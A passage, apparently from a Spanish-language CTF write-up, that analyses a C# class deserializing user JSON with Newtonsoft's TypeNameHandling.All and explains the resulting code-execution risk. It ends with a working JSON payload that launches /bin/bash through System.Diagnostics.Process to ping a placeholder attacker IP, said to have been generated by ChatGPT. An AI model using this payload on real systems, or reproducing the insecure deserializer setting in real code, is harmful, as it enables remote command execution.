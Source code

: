 ## Insecure JSON Deserialization
Analizando el código encontramos la clase `Handler` que contiene métodos relacionados con la serialización y deserialización de objetos.
```c#
public class Handler
  {
    public object Serialize(object obj)
    {
      return (object) JsonConvert.SerializeObject(obj, (Formatting) 1, new JsonSerializerSettings()
      {
        TypeNameHandling = (TypeNameHandling) 4
      });
    }

    public object Deserialize(string json)
    {
      try
      {
        return (object) JsonConvert.DeserializeObject<Base>(json, new JsonSerializerSettings()
        {
          TypeNameHandling = (TypeNameHandling) 4
        });
      }
      catch
      {
        return (object) "{\"Message\":\"unknown\"}";
      }
    }
  }
```

Este método es vulnerable a un ataque de deserialización ya que se utiliza la opción `TypeNameHandling.All` en `JsonConvert.DeserializeObject` y además el input del usuario no es filtrado en ningún momento.

### Por qué es peligroso `TypeNameHandling.All`?

- La opción **`TypeNameHandling.All`** permite que el deserializador **interprete y ejecute tipos específicos** incluidos en los datos JSON recibidos.
- Esto significa que si un atacante puede controlar el JSON de entrada, puede incluir un **assembly** o un tipo arbitrario y ejecutar código malicioso durante el proceso de deserialización.

En Linux, podemos usar clases estándar como `System.Diagnostics.Process` para ejecutar comandos del sistema.

Vamos a intentar ejecutar un comando a nivel de sistema para mandarnos un ping, este payload está generado por ChatGPT.

```json
{
  "$type": "System.Diagnostics.Process, System.Diagnostics.Process",
  "StartInfo": {
    "FileName": "/bin/bash",
    "Arguments": "-c 'ping -c 4 <IP_ATACANTE>'"
  }
}
```

